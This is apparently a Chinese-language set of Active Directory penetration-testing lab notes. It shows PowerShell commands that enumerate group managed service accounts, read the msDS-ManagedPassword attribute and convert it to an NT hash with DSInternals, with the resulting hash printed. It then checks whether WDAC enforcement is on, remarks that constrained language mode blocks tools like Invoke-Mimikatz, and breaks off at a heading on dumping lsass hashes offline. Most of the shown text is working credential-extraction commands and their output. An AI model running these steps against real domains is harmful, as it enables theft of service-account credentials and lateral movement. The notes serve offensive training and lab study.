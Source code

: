 # gMSAs

枚举（AD），枚举哪些账号的密码可以被gMSA读取，假设是jumpone
```
Get-ADServiceAccount -Filter *
```

枚举有哪些gMSA可以读取指定账号（上面枚举出来的用户）的密码
```
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

在gMSA的上下文中读取jumpone的哈希(AD)
```
PS C:\Windows\system32> $Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
PS C:\Windows\system32> Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
PS C:\Windows\system32> $decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
PS C:\Windows\system32> ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
24ea295f3c05aefc8c29d07992cdcc4c
PS C:\Windows\system32>
```

# WDAC

检测WDAC
```
PS C:\Users\jumpone$> Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard


AvailableSecurityProperties                  : {1, 2, 3, 5}
CodeIntegrityPolicyEnforcementStatus         : 2     //注意这里
InstanceIdentifier                           : 4ff40742-2649-41b8-bdd1-e80fad1cce80
RequiredSecurityProperties                   : {0}
SecurityServicesConfigured                   : {0}
SecurityServicesRunning                      : {0}
UsermodeCodeIntegrityPolicyEnforcementStatus : 2    //注意这里
Version                                      : 1.0
VirtualizationBasedSecurityStatus            : 0
VirtualMachineIsolation                      : False
VirtualMachineIsolationProperties            : {0}
PSComputerName                               :
```

表明WDAC 在靶机上运行，这就是powershell处于CLM下的原因

这当前环境下，大多数进攻性的powershell脚本（包括Invoke-mimikatz）不能使用

## 离线dump出lsass里的哈希
